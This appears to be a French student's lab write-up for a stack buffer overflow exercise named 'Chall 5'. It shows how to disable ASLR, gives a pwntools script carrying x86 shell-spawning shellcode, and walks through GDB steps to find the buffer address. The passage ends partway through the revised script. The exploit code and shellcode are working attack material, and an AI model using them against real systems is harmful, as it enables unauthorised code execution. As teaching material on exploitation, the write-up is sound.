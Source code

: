 #### Chall 5

- Désactiver ASLR :
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

- Premier code python
```python
#!/bin/python3

from pwn import *

shellcode = b"\x31\xdb\x31\xc9\x53\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xda\x89\xe3\x51\x89\xe1\x31\xc0\xb0\x0b\xcd\x80"
fact = 0x100 - len(shellcode)  # Ox100 = ancien padding
# fact permet de compléter le shellcode pour remplir le buffer
eax_deb_buffer = 0

io = process('./chall_5')
payload = shellcode
payload += (b"A"*fact)
payload += b"ZzzzZzzz"
payload += (b"A"*12)
gdb.attach(io) # on lance un GDB
input()  # On met un input pour intérompre le code
payload += p32(eax_deb_buffer) # on met l'adresse du début du buffer (pour l'instant on ne la connait pas)

io.sendlineafter(b"?", payload)
io.interactive()
io.close()
```
Le shellcode a été fournit par le prof. 
Lorsque l'on lance le code, un gdb se lance :
```
gef➤  disas vuln
   0x08049234 <+142>:   call   0x8049050 <fgets@plt>
   0x08049239 <+147>:   add    esp,0x10
gef➤  b *0x0804923   (on break juste après le fgets)
gef➤  info registers
gef➤  c         
```
disas vuln pour récupérer l'adresse du fgets et faire un breakpoint dessus avec la commande `b*0xffffce18` pour ensuite continuer l'input sur python et utiliser la commande continue et récuperer la valeurs de eax avec la commande info register.
- Appuyer sur "entrée" dans le terminal où est lancé le script pour continuer
```
gef➤  info registers
eax            0xffffcff8          0xffffcff8
```
Le début du buffer est à l'adresse de `eax`.

- On peut maintenant ajouter l'adresse dans le script :
```python
#!/bin/python3

from pwn import *

shellcode = b"\x31\xdb\x31\xc9\x53\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xda\x89\xe3\x51\x89\xe1\x31\xc0\xb0\x0b\xcd\x80"
fact = 0x100 - len(shellcode)
eax_deb_buffer = 0xffffcff8

io = process('./chall_5')
payload = shellcode
```